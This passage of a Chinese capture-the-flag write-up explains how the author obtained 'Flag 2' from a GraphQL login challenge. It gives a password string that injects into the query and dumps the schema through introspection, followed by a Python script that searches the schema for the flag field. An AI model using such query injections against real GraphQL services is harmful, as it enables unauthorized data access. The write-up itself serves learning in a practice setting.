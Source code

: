 

### Flag 2】并抢了【你的

好在除了isAdmin的判定严格要求是布尔型外，其他判定都只要求值不为空，没有类型检查。`__typename`是一个哪里都能获取到的非空字段，用它可以填上所有3个必选字段ok、isAdmin、username的需求。username能显示在页面上，得益于Python的`str()`行为，嵌套结构也能序列化输出。

用下面的密码可取得schema中的所有类型及其包含的字段。

```
"){login:__schema{ok:__typename isAdmin:__typename username:types{name fields{name type{name}}}}x:#
```

会收到一大坨随机命名的类型和字段的描述，环境重启会重新随机化。

![](graphql.webp)

用程序搜索flag2字段在哪里。

```py
schema = [{'fields': [{'name': 'ok', 'type': {'name': None}}, ...  # 从页面上复制
h = {t["name"]: t for t in schema}
p = []
def f(fields):
	for field in fields or ():
		p.append(field["name"])
		if field["name"] == "flag2":
			print("{".join(p) + "}" * (len(p) - 1))
			exit()
		f(h[field["type"]["name"]]["fields"])
		p.pop()
f(h["Secret"]["fields"])
```
